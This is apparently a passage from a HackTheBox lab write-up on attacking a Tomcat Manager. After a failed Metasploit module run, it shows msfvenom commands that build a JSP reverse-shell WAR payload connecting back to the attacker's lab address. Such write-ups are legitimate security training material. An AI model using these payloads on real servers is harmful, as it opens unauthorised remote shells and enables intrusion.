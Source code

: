 ```

msf exploit(multi/http/tomcat_mgr_upload) > set TARGET 1
TARGET => 1
msf exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.10.16.25:4444 
[*] Retrieving session ID and CSRF token...
[-] Exploit aborted due to failure: unknown: Unable to access the Tomcat Manager
[*] Exploit completed, but no session was created.
```

Hm.. well `metasploit` wasn't able to do the work for us..

.. so we'll have to attack Tomcat manually by uploading an exploit through our
Tomcat Manager util access. Let's see what exploits are available to us..

```
$ msfvenom -l payloads | grep shell_reverse_tcp | grep java
    java/jsp_shell_reverse_tcp                          Connect back to attacker and spawn a command shell
    java/shell_reverse_tcp                              Connect back to attacker and spawn a command shell
```

Let's try the JSP one?

We'll also need to specify the format - in our case we want a `war` file since
we are attacking the Tomcat server.

```
$ msfvenom --help-formats
Executable formats
	asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
Transform formats
	bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

And finally, we need to figure out what our local Kali VM's ip address is on
the hackthebox network..

```
$ ip a | egrep -oh "inet 10.10.1".{7}
inet 10.10.16.31/23
```

Now we are ready to generate our payload..

```
$ msfvenom -p java/jsp_shell_reverse_tcp -f war LHOST=10.10.16.31 LPORT=4444 > filoshell.war
Payload size: 1098 bytes
Final size of war file: 1098 bytes
$ unzip -l filoshell.war 
Archive:  filoshell.war
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2018-09-02 12:30   WEB-INF/
      259  2018-09-02 12:30   WEB-INF/web.xml
     1497  2018-09-02 12:30   yxyonnwa.jsp
---------                     -------
     1756                     3 files
```
